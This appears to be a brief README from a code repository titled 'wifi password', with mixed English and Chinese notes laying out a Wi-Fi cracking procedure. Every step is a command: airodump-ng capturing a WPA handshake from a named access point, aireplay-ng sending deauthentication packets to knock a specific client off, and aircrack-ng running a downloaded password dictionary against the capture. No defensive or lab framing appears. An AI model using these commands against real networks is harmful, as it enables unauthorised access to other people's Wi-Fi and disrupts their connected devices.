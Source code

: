 # wifi password 
## 01
chat and copy BSSIC and CH and STATION

EG: airodump-ng -c 11 --bssid 60:32:B1:56:3F:B2 -w /home/lingdu/卓面/handshake wlan0

## 02
EG: aireplay-ng -0 10 -a 60:32:B1:56:3F:B2 -c CC:08:FB:DD:42:18 wlan0

### end to chat cap文件
### 下載密碼字典

## 02.1
EG: aircrack-ng -w home/lingdu/卓面/password.txt -b 60:32:B1:56:3F:B2 / home/lingdu/卓面/handshake-0*.cap